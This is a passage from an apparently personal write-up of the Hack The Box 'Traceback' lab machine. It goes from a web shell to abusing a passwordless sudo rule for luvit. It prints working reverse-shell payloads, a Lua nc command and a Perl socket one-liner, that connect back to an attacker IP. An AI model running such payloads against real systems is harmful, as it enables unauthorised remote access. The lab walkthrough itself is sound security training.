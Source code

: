 ```php
$TabsColor = '#0E5061';                              //Change tabs color here.
#-------------------------------------------------------------------------------

?>
```

And luckily the credentials were not changed:
![](https://res.cloudinary.com/dytfhf4l8/image/upload/blog/hackthebox/traceback/webshell.png)
This looks straight out of a 90s hacking movie!

## Command execution
We can see from the top of the page that we are logged in as user `webadmin` and
now we have a way to execute commands on the machine. Taking a look around
allows us to find a file called `note.txt` in the user's home so lets read it:
```
$ cat /home/webadmin/note.txt
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```

Some interesting information can be found in `.bash_history`:
```
$ cat .bash_history
ls -la
sudo -l
nano privesc.lua
sudo -u sysadmin /home/sysadmin/luvit privesc.lua
rm privesc.lua
logout
```

Indeed running `sudo -l` tells us that we have the permission to run
`/home/sysadmin/luvit` as the user `sysadmin` without having to enter the
password:
```
$ sudo -l
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
```

The bash history file suggests that `luvit` can run a lua file, so lets try to
get a reverse shell as `sysadmin` by running this on the web shell console:
```
$ echo 'os.execute("nc 10.10.14.135 1337 -c /bin/sh")' > /tmp/rev.lua
```

And after setting our netcat listener with `nc -lnvp 1337` lets run it with:
```
$ sudo -u sysadmin /home/sysadmin/luvit /tmp/rev.lua
```
And nothing happens, probably netcat is compiled without `-c` and `-e` options,
so lets try to use Perl instead using the following payload:
```
perl -e 'use Socket;$i="10.10.14.135";$p=1337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
